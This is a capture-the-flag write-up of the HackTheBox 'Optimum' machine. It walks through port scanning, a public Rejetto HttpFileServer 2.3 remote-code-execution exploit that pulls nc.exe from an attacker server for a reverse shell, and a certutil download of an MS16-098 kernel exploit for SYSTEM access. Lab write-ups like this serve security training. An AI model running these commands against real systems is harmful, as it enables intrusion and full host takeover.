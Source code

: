 
# HackTheBox : Optimum

This is a simple Windows machine running `HttpFileServer 2.3` which is vulnerable to remote code execution. The privelege escalation is quite simple with using kernel exploit as it seems the only way.

## Information Gathering

### Port Scan

```zsh
nmap -sS -sC -v -p- 10.10.10.8
```
> Try running -sC later to save time.

```console
Starting Nmap 7.80 ( https://nmap.org ) at 2020-05-04 01:38 EDT
NSE: Loaded 121 scripts for scanning.
NSE: Script Pre-scanning.
Initiating NSE at 01:38
Completed NSE at 01:38, 0.00s elapsed
Initiating NSE at 01:38
Completed NSE at 01:38, 0.00s elapsed
Initiating Ping Scan at 01:38
Scanning 10.10.10.8 [4 ports]
Completed Ping Scan at 01:38, 0.25s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 01:38
Completed Parallel DNS resolution of 1 host. at 01:38, 0.00s elapsed
Initiating SYN Stealth Scan at 01:38
Scanning 10.10.10.8 [65535 ports]
Discovered open port 80/tcp on 10.10.10.8
SYN Stealth Scan Timing: About 5.79% done; ETC: 01:47 (0:08:25 remaining)
SYN Stealth Scan Timing: About 17.12% done; ETC: 01:44 (0:04:55 remaining)
Stats: 0:01:20 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 25.66% done; ETC: 01:43 (0:03:49 remaining)
SYN Stealth Scan Timing: About 38.19% done; ETC: 01:42 (0:02:56 remaining)
SYN Stealth Scan Timing: About 47.26% done; ETC: 01:43 (0:02:35 remaining)
SYN Stealth Scan Timing: About 59.56% done; ETC: 01:42 (0:01:55 remaining)
SYN Stealth Scan Timing: About 73.21% done; ETC: 01:42 (0:01:13 remaining)
SYN Stealth Scan Timing: About 81.33% done; ETC: 01:43 (0:00:57 remaining)
Completed SYN Stealth Scan at 01:43, 298.90s elapsed (65535 total ports)
NSE: Script scanning 10.10.10.8.
Initiating NSE at 01:43
Completed NSE at 01:43, 7.29s elapsed
Initiating NSE at 01:43
Completed NSE at 01:43, 0.00s elapsed
Nmap scan report for 10.10.10.8
Host is up (0.22s latency).
Not shown: 65534 filtered ports
PORT   STATE SERVICE
80/tcp open  http
|_http-favicon: Unknown favicon MD5: 759792EDD4EF8E6BC2D1877D27153CB1
| http-methods: 
|_  Supported Methods: GET HEAD POST
|_http-title: HFS /

NSE: Script Post-scanning.
Initiating NSE at 01:43
Completed NSE at 01:43, 0.00s elapsed
Initiating NSE at 01:43
Completed NSE at 01:43, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 307.18 seconds
           Raw packets sent: 131270 (5.776MB) | Rcvd: 199 (8.740KB)

```

## Enummeration 

### Discovery

From the nmap we could determine there was only a webapp at port 80.I started enumerating it.
```gobuster``` didnot give any results. 

![Webapp at port 80](./images/webapp.png)

On a little more enumeration. I found a basic login page but since we have no usernames, I just tried a few default credentials and that is all. I simply started looking more about this 
```HttpFileServer 2.3```


```zsh
searchsploit Rejetto
```
![searchsploit](./images/searchsploit.png)

I used the one highlighted in the picture above i.e. ```39161.py```. 

Now, on reading how to use the exploit,the following instructions stood out. 


>EDB Note: You need to be using a web server hosting netcat (http://<attackers_ip>:80/nc.exe).  
> You may need to run it multiple times for success!

**What is the exploit doing ?**

Mindlessly trying out exploits in not something which will take you a long way. Let's try to break it down a bit. Please open the exploit side by side to follow what I am saying.

- ```vbs``` variable is basically downloading the nc.exe which we will host at our kali machine
- ```vbs2``` variable is using cscript.exe which is a command-line version of the Windows Script Host that provides command-line options for setting script properties. With Cscript.exe, you can run scripts by typing the name of a script file at the command prompt
- ```vbs3``` varaible is basically running nc .exe with the cmd.exe, our local ip and port as arguments so we can get the reverse shell back

## Exploitation

Now, that we have chosen out exploit, let's get cracking. Move nc.exe into your working dir.
>Note If you donot have seclists installed.
>Here is the link https://github.com/danielmiessler/SecLists
>if you are using kali linux then this should do the trick ```apt -y install seclists```


Copy the nc.exe to your work folder 

```zsh
locate nc.exe
cp /usr/share/seclists/Web-Shells/FuzzDB/nc.exe .
```
Copy the exploit to your work folder

```zsh
cp /usr/share/exploitdb/exploits/windows/remote/39161.py .
```
Edit the exploit according to your LHOST and LPORT in ```ip_addr``` and ```local_port```

![Edit the exploit](./images/exploit_edit.png)



Start the python server where you have the nc.exe

```zsh
python -m SimpleHTTPServer 80
```
Start the listener port specified in the exploit

```zsh
nc -lvnp 443
```
Execute the exploit

```zsh
python 39161.py 10.10.10.8 80
```
Meanwhile, you can ensure that your exploit is working by this

![File downloaded](./images/hosted_nc.exe.png)

Now when you look at the ```port 443``` listener. We will have the user(kostas) shell.

![User Shell](./images/intial_shell.png)

Accessing the first flag.

***User Flag***

![User Flag](./images/userflag.png)

If I try to open the Administrator folder, it will say "Access denied". So, we have to do some privilege escalation

## Privilege Escalation

Whenever I have an intial shell, I always check my privileges and system info

```cmd
whoami /priv
system info
```
![System information](./images/systeminfo.png)

We note that OS and build versions so as to find a proper priv-esc method.

I try to avoid using kernel exploits generally, I did enumerate it manually as much as I could and did not find anything juicy, So I tried using the ```windows exploit suggester```

>Here is the link for download : https://github.com/AonCyberLabs/Windows-Exploit-Suggester

**A lot of newer kali had issues with it, so you can try the following**

```zsh 
curl https://bootstrap.pypa.io/get-pip.py -o get-pip.py
```
Execute this in the folder where you downloaded the above file.

```zsh
python get-pip.py
```

Then,
```zsh
 pip install xlrd
```
Now, you are good to go.

Copy the systeminfo output and paste it in the folder of ```Windows exploit suggester```

```zsh
python windows-exploit-suggester.py --update
```
An xls db would be downloaded use it as a refernce for the db to search against

```zsh
python windows-exploit-suggester.py --systeminfo systeminfo.txt --database  2020-05-04-mssb.xls
```
![Windows Exploit Suggester](./images/exploit_suggester.png)

Now after reading through a few, I decided to got with ```MS16-098```.

To download the binary for this exploit you can download it from here :
>https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS16-098

Or you can get it from the repo mentioned inside the exploit.I have added the exe in my github link for this box.
Now we have to upload this binary. Place it in the same folder where you hosted the nc.exe file and we will use certutil to upload

```cmd
certutil.exe -urlcache -split -f http://10.10.14.8:80/41020.exe 41020.exe
```
Simply execute it and you will have a shell with System privilges

![Shell with System privileges](./images/system_shell.png)

***Root Flag***

![Root Flag](./images/rootflag.png)

That is all for this box. See you in the next one which is "Bastard".